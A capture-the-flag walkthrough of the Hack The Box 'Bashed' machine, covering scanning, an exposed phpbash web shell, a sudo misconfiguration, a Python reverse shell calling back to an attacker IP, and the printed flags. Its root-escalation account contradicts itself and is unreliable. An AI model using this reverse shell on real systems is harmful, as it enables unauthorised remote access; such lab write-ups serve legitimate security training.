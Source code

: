 
IP = 10.10.10.68

we right away see a website
```
sudo nmap -sV 10.10.10.68                                             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 15:47 CEST
Nmap scan report for 10.10.10.68
Host is up (0.10s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.71 seconds

```

```
feroxbuster -u http://10.10.10.68/ -w /usr/share/wordlists/seclists/PathBANGER.txt -r -C 404 -x php
```

```
feroxbuster -u http://10.10.10.68/ -w /usr/share/wordlists/seclists/PathBANGER.txt -r -C 404 -x php
                                                                             
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.68/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/PathBANGER.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        7l       23w     1322c http://10.10.10.68/images/favicon.png
200      GET      154l      394w     7477c http://10.10.10.68/single.html
200      GET      161l      397w     7743c http://10.10.10.68/index.html
200      GET        8l       35w     2447c http://10.10.10.68/images/logo.png
200      GET       32l      116w     1222c http://10.10.10.68/css/carouFredSel.css
200      GET       12l       63w     1392c http://10.10.10.68/js/jquery.mousewheel.min.js
200      GET        8l       73w     2429c http://10.10.10.68/js/html5.js
200      GET       13l      113w     4313c http://10.10.10.68/js/jquery.touchSwipe.min.js
200      GET       15l      672w    36079c http://10.10.10.68/js/jquery.carouFredSel-6.0.0-packed.js
200      GET      118l      550w    60153c http://10.10.10.68/js/jquery.nicescroll.min.js
200      GET        1l        1w       14c http://10.10.10.68/uploads/
200      GET       58l      254w     1783c http://10.10.10.68/js/jquery.easing.1.3.js
200      GET      117l      685w     4689c http://10.10.10.68/css/sm-clean.css
200      GET       96l      166w     1661c http://10.10.10.68/css/clear.css
200      GET      680l     1154w    10723c http://10.10.10.68/css/common.css
200      GET      262l      560w     8904c http://10.10.10.68/js/main.js
200      GET      893l     3885w    26643c http://10.10.10.68/js/imagesloaded.pkgd.js
200      GET        4l       66w    29063c http://10.10.10.68/css/font-awesome.min.css
200      GET        3l      206w    24476c http://10.10.10.68/js/jquery.smartmenus.min.js
200      GET     1412l     2291w    24164c http://10.10.10.68/style.css
200      GET        6l       20w     1537c http://10.10.10.68/images/arrow.png
200      GET       19l       88w     1564c http://10.10.10.68/images/
200      GET       38l       76w      909c http://10.10.10.68/js/custom_google_map_style.js
200      GET      154l     1009w    73725c http://10.10.10.68/images/ajax-document-loader.gif
200      GET        6l     1435w    97184c http://10.10.10.68/js/jquery.js
200      GET      161l      397w     7743c http://10.10.10.68/
200      GET        0l        0w        0c http://10.10.10.68/php/sendMail.php
200      GET       16l       59w      939c http://10.10.10.68/php/
200      GET       20l       96w     1758c http://10.10.10.68/css/
200      GET      216l      489w     8151c http://10.10.10.68/dev/phpbash.php
200      GET        1l      255w     4559c http://10.10.10.68/dev/phpbash.min

```

as we can see there we have http://10.10.10.68/dev/phpbash.php

We are told that the server is build on [phpbash]([https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash))


Inside phpbash:

```
whoami      # www-data
id           # uid=33(www-data)
ls /home     # arrexel, scriptmanager
sudo -l
```

We discover a key privilege escalation path:

```
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

This means www-data can run any command as `scriptmanager`, using `sudo`.

Although we cannot use `su scriptmanager` (no password), we can execute commands as `scriptmanager` with:

```
sudo -u scriptmanager <command>
```

We check `/scripts`:

```
sudo -u scriptmanager ls -la /scripts
```

We find a Python file named `test.py` owned by `scriptmanager`, which we can modify:

```bash
echo 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.14.11",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])' | sudo -u scriptmanager tee /scripts/test.py > /dev/null
```
Note: `10.10.14.11` is the VPN IP of the attacking machine

### Listener:

```bash
nc -lvnp 4444
```

### Trigger the reverse shell:

```bash
sudo -u scriptmanager python /scripts/test.py
```
This gives us a reverse shell as `scriptmanager` on our local machine.

Now check the listener and we should be root!
```
whoami    # root
cat /root/root.txt
07e7b90a784d3f7d0c4ee08c0be62774
cat /home/arrexel/user.txt
817fffdd4cc7a8865c6f07e304a4150d
```


### Conclusion

In the _Bashed_ Hack The Box machine, initial access was obtained through an exposed `phpbash.php` web shell running as the low-privileged `www-data` user. During enumeration, it was discovered that `www-data` had misconfigured `sudo` permissions, allowing it to run any command as the `scriptmanager` user without requiring a password. Although direct switching to `scriptmanager` wasn’t possible, we leveraged `sudo -u scriptmanager` to inject a Python reverse shell into a writable script file (`/scripts/test.py`). By triggering this file, we received a reverse shell connection back to our local Mac, this time as `scriptmanager`. From there, a simple privilege escalation was achieved by running `/bin/bash` as root using `sudo`, completing the compromise and granting access to both the user and root flags. This box serves as a lesson in the dangers of exposed dev tools, overly permissive `sudo` rules, and unmonitored script execution paths.


